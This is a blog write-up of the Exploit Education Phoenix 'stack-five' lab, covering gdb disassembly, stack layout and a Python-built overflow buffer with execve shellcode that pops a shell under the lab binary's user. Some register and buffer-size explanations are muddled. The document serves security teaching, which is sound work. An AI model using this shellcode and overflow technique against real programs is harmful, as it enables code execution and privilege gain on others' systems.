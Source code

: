 ```yaml
---
layout: post
title: Stack Five Writeup (Code Execution) - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
description: A comprehensive writeup that helps to understand Stack Five exercise stack-overflow vulnerability with learning resources.
---
```


### Previous Writeup: 

1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)
3. [Stack Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/26/exploit-education-stack-two-exercise-writeup.html)
4. [Stack Three Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/27/exploit-education-stack-three-exercise-writeup.html)
5. [Stack Four Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/28/exploit-education-stack-four-exercise-writeup.html)

If you're learning and writing binary exploits, I would strongly recommend you to take [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/) course by `Xeno Kovah`. They cover a wide variety of learning assembly instructions which will be really helpful to understand the exploits.

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

### Quick Overview

Similar to Stack Four, Stack Five exercise motives are smashing the stack, overwrite return address (`$rsp`) and redirect the program to execute shellcode. Similar to previous stack post series, `gets` function is utilized which can pave way to overflow and execute shellcode (code execution) in the context of binary.

### Disassemble

Disassembling the code will get you overall idea behind the stack-five code, One can use `gdb ./stack-five` to start debugging it in runtime.

1. `gdb ./stack-five`
2. Type `disassemble main` to get the disassembled code (assembly)

```assembly
   0x00000000004005a4 <+0>:     push   rbp
   0x00000000004005a5 <+1>:     mov    rbp,rsp
   0x00000000004005a8 <+4>:     sub    rsp,0x10
   0x00000000004005ac <+8>:     mov    DWORD PTR [rbp-0x4],edi
   0x00000000004005af <+11>:    mov    QWORD PTR [rbp-0x10],rsi
   0x00000000004005b3 <+15>:    mov    edi,0x400620
   0x00000000004005b8 <+20>:    call   0x400400 <puts@plt>
   0x00000000004005bd <+25>:    mov    eax,0x0
   0x00000000004005c2 <+30>:    call   0x40058d <start_level>
   0x00000000004005c7 <+35>:    mov    eax,0x0
   0x00000000004005cc <+40>:    leave
   0x00000000004005cd <+41>:    ret
```

`> disassemble start_level`

```assembly
   0x000000000040058d <+0>:     push   rbp
   0x000000000040058e <+1>:     mov    rbp,rsp
   0x0000000000400591 <+4>:     add    rsp,0xffffffffffffff80
   0x0000000000400595 <+8>:     lea    rax,[rbp-0x80]
   0x0000000000400599 <+12>:    mov    rdi,rax
   0x000000000040059c <+15>:    call   0x4003f0 <gets@plt>
   0x00000000004005a1 <+20>:    nop
   0x00000000004005a2 <+21>:    leave
   0x00000000004005a3 <+22>:    ret
```

Before taking a look at the code, if you disassembled the stack-five using gdb to view the assembly instruction, you may notice the puts, start_level and gets function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/stack-five, brought to you by https://exploit.education` message via Puts (aka printf) method
3. Invokes `start_level` function `0x4005c2`
4. Accepts user input via `gets` method with `buffer` memory address.
5. The program automatically exits from `main` method returning back to invoker.

### Primary Goal

The primary goal of this exercise is to make you overwrite the return address stack in `start_level` redirect to `shellcode` and gain code execution. If you remember from previous writeups, the next instruction (return address) as `$rsp` stack pointer stays in stack and consumed by `$rip` register aka instruction pointer.

![Illustration of Stack Five exploit](/assets/media/stack-five-stack-overflow.png)

### Memory Allocation

As you see that the `buffer` variable isn't dynamically allocated, they are allocated in the stack frame same as `start_level` function gets executes. The main function starts executing my pushing `$rbp` to stack at `0x7fffffffe660` and then `rsp` to `$rbp-0x10` (`0x7fffffffe648`) as expected the stack grows from top (higher memory address) to bottom (lower memory address). 

![Stack Memory Layout from $rbp till $rsp](/assets/media/exploit-education-phoenix-stack-five-rbp.jpg)

You can see that `buffer` (64 bytes) gets written at `$rbp-0x80` i.e `0x7fffffff45c0` and `$rbp` register (8 bytes) at `rbp-0x10` i.e `0x7fffffffe648`. Now that you got the overall idea of the memory layout of the stack, you can now go ahead blow up the stack to overwrite `$rsp` aka stack pointer stored in stack. If you play around with these memory layout behaviour, you can note that the char `buffer` variable writes from `$rbp-0x80` towards `$rbp-0x10` i.e `0x7fffffffe648`.

<sup> *check `Trial and Error section` to learn about why address slightly differs while executing in gdb vs seperate program invoked from shell</sup>

### Exploit

As we know that `gets` function prone to stack/buffer overflow based on context, We're about to carefully plan the exploit and plant the shellcode within the buffer and overwrite `$rbp` base pointer, `$rsp` stack pointer and redirect the program to shellcode address. Unlike real word scenario such as `ASLR - Address Layour Randomization` and other preventions in place, We now get a chance to hardcode the `buffer` address which 💯% static in this environment. Let's now visit the malicious buffer construction,

1. Initialize the buffer with `NOP` instructions `0x90` for safety
2. Place the exact shellcode 
3. Fill the buffer with remaining character (`0x41` - A) i.e (size of buffer) minus (above filled character length)
4. Overwrite the `$rbp` with 8 characters (say 8 bytes)
5. Time to overwrite the `$rsp` with actual buffer start address i.e `0x7fffffff45f0`

So, here goes the exploit buffer generated with python code,

```python
# Initial Padding with NOP instruction
buf = "\x90" * 30 
# Actual SHELL Code
buf += "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
# Remaining padding 
buf += "A" * (128 - len(buf)) 
# Overwrite $rbp (base pointer)
buf += 'BBBBBBBB'
# Overwrite $rsp (consumed by $rip - instruction pointer) 
buf += '\xf0\xe5\xff\xff\xff\x7f' 
# Finally print and redirect this ouput to stack-five binary
print buf 
```

### Result

`> (python $HOME/stack-five.py; cat) | /opt/phoenix/amd64/stack-five`

```shell
user@phoenix-amd64:/opt/phoenix/amd64$ (python $HOME/stack-five.py; cat) | /opt/phoenix/amd64/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
id
uid=1000(user) gid=1000(user) euid=405(phoenix-amd64-stack-five) egid=405(phoenix-amd64-stack-five) groups=405(phoenix-amd64-stack-five),27(sudo),1000(user)
whoami
phoenix-amd64-stack-five
```

There you go! 🎉 You've officially `pwned` the `binary` and possibly you could control the program flow and may 
eventually perform remote code execution in the system. 🪲



### Trial & Errors

I'm including this trial and error section to learn more about debugging and failures I came across while solving this problem,

1. #### Why does address differs in `GDB` vs while executing from shell?

   The answer boils down to the environment variables that are automatically being set by `gdb` such as `LINES` & `COLUMNS`. So, when the environment variables are added to the program the stack gets pushed down and thus address varies.

   - #### How do I fix this and simulate similar to real world program execution?

      1. Simply use `unset env LINES` & `unset env COLUMNS` commands to reset environment variables in `gdb`
      2. Use mature tools like `pwntools` - [python library](https://github.com/Gallopsled/pwntools) which helps write exploits and hooks to gdb automatically upon execution.

2. #### My exploit successfully invokes shell (/bin/dash) but doesn't ouput any results or terminates abruptly?

   That's probably because you haven't included the output redirection to your exploit script after invoking shell. For instance `Generated Shell Code; Cat` cat command can help in redirecting the output of the shell commands and wait listening like interactive mode. Check `Results` section for the exact exploit code and appended command.

### Source and Reference:

1. Stack Five Exercise: [Exploit Education](https://exploit.education/phoenix/stack-five/)
2. [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/)

![buffer-overflow-meme](/assets/media/buffer-overflow-meme-2.jfif)

### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
